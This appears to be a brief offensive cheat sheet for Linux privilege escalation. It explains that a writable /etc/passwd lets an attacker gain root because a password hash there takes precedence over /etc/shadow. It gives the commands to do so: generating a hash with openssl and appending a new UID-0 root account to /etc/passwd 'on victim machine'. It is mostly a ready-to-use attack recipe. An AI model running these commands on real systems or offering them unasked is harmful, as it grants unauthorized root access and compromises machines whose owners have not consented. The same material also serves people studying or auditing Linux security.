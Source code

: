 If the user has write permissions to /etc/passwd, then the machine is vulnerable.

For backwards compatibility, if a password hash is present in the second column of an /etc/passwd user record, it is considered valid for authentication and it takes precedence over the respective entry in /etc/shadow.
# Create new user in /etc/passwd
## Generate password for new user
```bash
openssl passwd $(NEW_PASSWORD)
```
## Add entry to /etc/passwd
On victim machine:
```bash
echo "$(NEW_USER):$(OPENSSL_OUTPUT):0:0:root:/root:/bin/bash" >> /etc/passwd
```
